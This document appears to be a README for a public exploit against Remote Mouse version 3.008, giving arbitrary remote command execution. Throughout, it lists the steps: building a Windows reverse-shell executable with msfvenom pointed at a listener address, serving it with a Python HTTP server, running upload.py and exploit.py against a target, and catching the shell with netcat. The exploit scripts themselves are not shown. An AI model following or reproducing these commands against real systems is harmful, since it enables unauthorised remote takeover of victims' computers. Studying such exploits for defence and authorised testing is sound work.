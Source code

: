 <h1> Exploit for Remote Mouse - Arbitrary Remote Command Execution </h1>


<h3>specific version  3.008 </h3>


1. make revshell exe file
   
   ```
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.209 LPORT=443 -f exe > weinrev.exe
   ```
2. Run a python server on this directory
   ```
   python3 -m http.server 80
   ```
3. Edit upload.py at line 119 then run the command 
   ```
   python2 upload.py target_ip
   ```
4. wait a little bit for getting response in python server 
5. Run a nc for getting reverse shell
   ```
   nc -lnvp 443
   ```
6. Edit exploit.py at line 119 and run
   ```
   python2 exploit.py target_ip
   ```
